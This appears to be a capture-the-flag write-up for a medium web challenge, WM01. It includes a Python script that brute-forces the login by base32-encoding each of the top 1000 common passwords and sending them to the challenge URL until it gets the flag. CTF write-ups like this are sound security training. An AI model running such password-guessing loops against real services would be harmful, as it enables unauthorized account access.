

# WM01
## Web Exploit (Medium)



This challenge gives you another good hint when they mention using a list of top 1000 passwords (like so people aren't trying to use rockyou.txt to overload the server). However, they don't really talk about how the password should be encoded.

When you first try to submit the password to the URL, you'll see an error message that it is not in the "correct base encoding". This indicates that they expect the password to be in base64 or something when passed.

After a little experimentation, you find that it actually expects base32. A quick python script can loop through a text file with the top 1000 weak passwords (easily found on google), base32 encode it, submit it to the server, and print out the flag as soon as it succeeeds.

```python
import urllib.request
import base64

P = open("pass.txt")

count = 1

for p in P.readlines():

    password = base64.b32encode(p.strip().encode())

    response = urllib.request.urlopen('https://wm01.allyourbases.co/?pass='+password.decode())
    html = response.read().decode()

    if html != "Error: password incorrect":
        print(html)
        exit()
    else:
        print(count,end=" ")

    if count%25==0:
        print("\n",end="")

    count+=1
```
